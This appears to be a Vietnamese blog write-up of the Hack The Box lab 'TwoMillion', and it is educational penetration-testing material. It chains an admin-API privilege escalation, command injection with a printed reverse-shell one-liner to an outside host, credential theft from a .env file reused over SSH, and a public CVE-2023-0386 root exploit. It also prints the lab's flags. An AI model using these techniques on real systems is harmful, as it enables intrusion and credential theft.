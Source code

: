 ```yaml
---
title: HTB TwoMillion
published: 2025-08-02
tags: [HTB, Linux, Easy]
category: Writeups
author: Trohan0x00
draft: false
description: Writeup about TwoMillion Machine
image: "/assets/post_image/twomillion.png"
---
```

# HTB Labs: Two Million
## I. User Flag
Mình được cấp 1 IP tương tự các machine khác, tiến hành truy cập và scan trước bằng nmap 
![image](https://hackmd.io/_uploads/rJQgmW3Bxg.png)
Thấy được chỉ có mỗi 2 services là `ssh` và `nginx` mình sẽ tiến hành recon cả hai
Mình sẽ tiến hành recon web server trước vì hiện tại chưa có thông tin về user của ssh
![image](https://hackmd.io/_uploads/SkiBmZ2Sxx.png)
Đây có lẽ là một trang intro về HTB, hoặc gì đó tương tự vậy. Để biết rõ hơn về directory của web này mình sẽ scan dir thử xem có gì đặc biệt
![image](https://hackmd.io/_uploads/rJXtpK3Dlx.png)
Mình thấy một vài dir thú vị, mình sẽ thử `/register` xem có gì đặc biệt
![image](https://hackmd.io/_uploads/rkEhaK2vgl.png)
Ta thấy đây là một trang đăng ký bình thường, nhưng để đăng ký được thì ta cần có một `invite code`, đây là một trường input nhưng mình không thể nhập được. View source mình thấy một điều thú vị
![image](https://hackmd.io/_uploads/HJ6rAKnPee.png)
Đoạn js này dùng để lấy mã `invite code` từ `localStorage` vầ ở trên ta có thể thấy thêm một file `inviteapi.min.js` tiến hành vào kiểm tra thì có vẽ như đã bị `obfuscated`
```javascript 
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```
Đây là dạng `eval obfuscation` để tránh mất thời gian mình sẽ dùng [beautifer](https://beautifier.io) để tiến hành `deobs`
```javascript 
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
```
Kết quả trả về ta có 2 `function` một là dùng để check `invite code` và cái còn lại là tạo ra `invite code`. Nói về `function` `makeInviteCode()` thì ta có thể thấy rằng nó gửi một `post req` đến `/api/v1/invite/how/to/generate` để lấy mã `invite code` từ đây và tiến hành thiết lập mã mời. Có lẽ endpoint này có thể khai thác thêm gì đó. Mình sẽ tiến hành post một `req` đến `API` để xem thử có dữ liệu gì được trả về không
![image](https://hackmd.io/_uploads/SJuUl62wee.png)
Như ta thấy, nó trả về nội dung như này, và `data` đã bị encode nhưng giờ vẫn chưa biết thuật toán dùng để encode là gì. Nhưng bên dưới lại để `entype: ROT13` nên mình sẽ decode với `RÓT13` xem
![image](https://hackmd.io/_uploads/HJJJbahvle.png)
Ta nhận được thông điệp là hãy dùng `post req` đến endpoint trên 
![image](https://hackmd.io/_uploads/r1rMZpnwle.png)
Ta tiếp tục nhận lại `data` như trên, nhưng về `data` này có vẻ như dễ dàng nhận biết được encode bằng `B64`
![image](https://hackmd.io/_uploads/SyEIWT3vlx.png)
Ta nhận lại một đoạn mã, có vẽ như chính là `invite code` nếu như không lầm thì đây chính là endpoint sẽ cung cấp `invite code` cho phía `function` ở đoạn code js truớc. Giờ mình sẽ dùng `invite code` này để reg một account
![image](https://hackmd.io/_uploads/HJDfzTnDlg.png)
![image](https://hackmd.io/_uploads/rJofG63vlg.png)
Sau khi reg thành công, ta đã vào được trang chính như trên. OK Khi vào được trang này và đã có thêm cookie. Mình sẽ tiến hành để scan dir thêm một lần nữa để xem có thể phát hiện thêm gì mới không
![image](https://hackmd.io/_uploads/BJUulxpwxe.png)
Mình thấy có thêm một dir là `/api` trả code 200 nên quyết định check thử 
![image](https://hackmd.io/_uploads/HJgAxeTvxl.png)
Ta biết thêm một dir là `/api/v1` 
![image](https://hackmd.io/_uploads/rJt-bxaPge.png)
Đây là một list `API` của version và được phân cấp theo từng người dùng. Ta có thể thấy được `/api/v1/admin` và `/api/v1/user` được chia theo từng cách call với từng method như `GET`, `POST`. Có lẽ đây là nơi mà các lệnh call `API` ở file js vừa rồi mình quan sát được nhưng không thể truy cập vào xem khi chưa có user. Có lẽ sẽ có nhiều thông tin để khai thác
Sau một lúc truy vấn thì mình phát hiện được ta có thể dùng `PUT req` đến `/api/v1/admin/settings/update`, sau khi gửi `req` đến thì ta nhận được các thông báo lỗi có thể giúp ích được rất nhiều, cụ thể
![image](https://hackmd.io/_uploads/H1qAyyCDxe.png)
Cụ thể ở `req` đầu ta nhận được `res` báo về do chưa có `content-type` hợp lệ, do `data` trả về dưới dạng json nên mình nghĩ `data` gửi hợp lệ cũng sẽ là json 
![image](https://hackmd.io/_uploads/ryeMxkCPle.png)
Sửa xong tiếp tục gửi `req` thì nhận được là thiếu param email mình lập tức thêm email vào `req` để gửi đi . Tiếp đến nó lại yêu cầu có param `is_admin`. Mình nghĩ đây là một param nhận `boolen_value` nên mình sẽ thử với `is_admin:1`
![image](https://hackmd.io/_uploads/rkl6xyADlg.png)
Kết quả ta nhận được `res` như này. Giờ có lẽ ta đã hoàn toàn có thể cấp quyền admin cho user của ta. Để test thử xem thì mình sẽ call một API admin khác
![image](https://hackmd.io/_uploads/H1JibJCwlg.png)
Hoàn toàn call thành công. Và sau khi call với `/api/v1/admin/auth` thì `res` trả về là true chứng tỏ việc leo quyền user đã thành công và giờ ta đã là `admin`
![image](https://hackmd.io/_uploads/HJfAlgCPge.png)
Tiếp theo là gửi `Post req` đến `/api/v1/admin/vpn/generate` để xem có thể khai thác gì từ `API` cuối cùng này không. Thì ta có thể thấy được nó yêu cầu thêm param là `username`
![image](https://hackmd.io/_uploads/SknQWeCvxg.png)
Và `API` này nhận bát kỳ giá trị nào của param `username`, do đó có khả năng sẽ bị `Command Injection`. Ta sẽ tiến hành thử detect
![image](https://hackmd.io/_uploads/BkWczWCDle.png)
Chỉ với việc inject đơn giản, ta đã có thể detect được lỗ hỏng. Để dễ dàng khai thác, ta cần đưa reverse shell vào để lấy shell thuận lợi cho việc khai thác hơn
```shell!
sh -i >& /dev/tcp/10.10.10.10/4242 0>&1
```
Mình sẽ dùng `bash`, sau đó chỉ cần inject vào là ta đẫ lấy được `reverse shell`.
![image](https://hackmd.io/_uploads/B1PE5GCvgg.png)
Ta thấy dễ dàng lấy được `reverse shell`, và user hiện tại là `www-data`. Không phải `admin` nên các quyền hạn hiện tại còn hạn chế. Sau một xem thử thì mình tìm được một file `.env`
![image](https://hackmd.io/_uploads/r17FO4APgg.png)
Khi cat ra ta được một credential của `admin`. Mình nghĩ đây có lẽ là credential của admin trong server `ssh`. Còn nhớ khi ta scan IP thì có 2 services 1 là `web server` 2 là `ssh`
```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
Giờ mình sẽ thử login với credential này xem 
![image](https://hackmd.io/_uploads/H1bWt40Dxx.png)
Ta đã thành công vào được `ssh server`. `ls` ra thì có file `user.txt`. Đây chính là file chứa `user flag` của ta, ban đầu khi vọc ở `reverse shell`, mình thấy được một dir là `/home/admin/user.txt` nhưng lúc đó lại không có quyền để đọc file. Giờ thì đã thành công lấy được `user flag`

> 79f5d11adcf863aadc6d588a6fbbe4a6

## II. Root Flag
Sau khi tìm được `user flag`, mình bắt đầu đi tìm `root flag` nhưng loay hoay mãi vẫn chưa tìm được thêm thông tin gì về lỗ hỏng để leo quyền và thông tin liên quan. Có check hint thì mình cần kiểm tra thêm về nơi lưu trữ các mail của `Linux system`. Sau một lúc search thì thấy được các mail được gửi đến sẽ được lưu ở `/var/mail`. Đi vào để kiểm tra thì nhận được một bản email gửi đến `admin` như sau
```
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```
Email này là một thông điệp nội bộ, gửi từ một nhân viên tên là `ch4p` đến `admin` và cc cho `g0blin`, với nội dung liên quan đến việc vá lỗi bảo mật hệ thống.
Tìm hiểu về `CVE-2023-0386` này thì lỗ hổng này cho phép một người dùng thông thường có thể chiếm quyền `root `bằng cách lợi dụng cơ chế sao chép file (copy-up) của `OverlayFS`. Cụ thể, khi một file có quyền `setuid` được sao chép từ một lớp file hệ thống ảo (FUSE) lên lớp ghi (upper layer), `OverlayFS` đã không loại bỏ quyền `setuid` này, cho phép kẻ tấn công thực thi file với quyền root.
Sau một lúc tìm kiếm thì mình tìm được `POC` và cũng như là payload exploit của `CVE` này [ở đây](https://github.com/sxlmnwb/CVE-2023-0386)
OK giờ ta đã có payload exploit. Tiếp đến là dựng server đẻ upload zip này lên máy victim. Mình sẽ dựng `Python server` để upload
![image](https://hackmd.io/_uploads/rkwLZhldee.png)
Có vẻ như ta không có quyền uplaod ở cả user thường và admin ở phía ssh. Giờ ta cần phải upload bằng `scp`

```bash
sshpass -p SuperDuperPass123 scp CVE-2023-0386-master.zip admin@10.10.11.221:/tmp/         
```
Ta sẽ upload thông qua credential ssh mà ta đã có và lưu ở tmp. Cách khai thác thì tiến hành mở 2 terminal do đây là `SSH Server` nên mình sẽ start 2 sessions. Ở session 1 ta sẽ run `./fuse ./ovlcap/lower ./gc`
Và tiếp theo ở session 2 là `./exp`
![image](https://hackmd.io/_uploads/SJQHiyZOeg.png)
Như ta đã thấy, giờ hoàn toàn đã leo quyền thành công. Do đây là một bài labs để khai thác nên mình sẽ chưa tìm hiểu kỹ về `CVE` này ở blog này nên chỉ cần dùng payload exploit đã công bố là được giờ ta chỉ cần đọc root flag ở `/root/root.txt`
> 0f080a26c0360745340c0b6f5b3a407b




